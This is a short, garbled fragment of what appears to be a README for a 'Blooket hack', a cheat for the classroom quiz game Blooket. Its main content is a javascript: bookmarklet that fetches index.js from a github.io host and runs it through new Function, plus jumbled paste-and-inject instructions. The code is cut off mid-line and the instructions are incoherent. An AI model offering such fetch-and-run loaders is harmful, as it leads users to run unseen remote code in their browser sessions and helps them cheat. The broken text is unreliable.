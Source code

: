 javascript:fetch('https://thatfrueddued.github.io/blooket-hack/index.js').then(r=>r.text()).then(t=>(new Function(t))(

Do not paste this 
Click inject hack the paste thishttps://github.com/cooldude3787/Blooket-Hack//main/README.md
